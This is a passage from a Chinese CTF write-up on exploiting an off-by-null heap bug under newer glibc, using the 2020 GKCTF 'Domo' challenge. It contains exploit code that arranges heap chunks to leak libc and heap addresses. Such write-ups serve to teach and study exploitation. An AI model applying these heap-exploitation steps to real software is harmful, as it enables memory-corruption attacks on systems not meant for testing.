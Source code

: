 和`GLIBC 2.27`相比，最明显的其实是整个宏定义被变更成了函数，其中的保护并没有发生更多的改变。

那么，事实上，真正对我们的利用产生阻碍的是之前合并操作变化，如果我们要继续完成利用，我们就需要修改 fake chunk 的 size 域，然而我们现在只有`Off-by-null`的利用条件是无法进行修改的，那么我们要利用就需要进行较为巧妙的堆布局构造，具体构造方式请查看例题。



## 0x03 以 2020 GKCTF Domo 为例

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-05-26-025623.png)

保护全开，64位程序

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-05-26-025739.png)

创建`Chunk`时存在一个`off-by-null`漏洞

⚠️：注意，此处是恒定存在一个空字节溢出，并不是在我们的输入后面加一个空字节！

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

#### <a class="reference-link" name="%E6%B3%84%E9%9C%B2%E6%9C%89%E7%94%A8%E4%BF%A1%E6%81%AF"></a>泄露有用信息

首先需要泄露一些有用的地址值，例如`Libc`、`Heap Addr`等

```
creat(sh,0x100,'Chunk0')
creat(sh,0x100,'Chunk1')
creat(sh,0x40,'Chunk2')
creat(sh,0x40,'Chunk3')
creat(sh,0x100,'Chunk4')

delete(sh,0)
creat(sh,0x100,'Libc---&gt;')
show(sh,0)
libc.address = get_address(sh=sh,info='LIBC ADDRESS IS ',start_string='Libc---&gt;',end_string='x0A',offset=-0x3C4B78)

delete(sh,3)
delete(sh,2)
creat(sh,0x40,'H')
show(sh,2)
heap_address = get_address(sh=sh,info='HEAP ADDRESS IS ',start_string='n',address_len=6,offset=-0x1238)
```

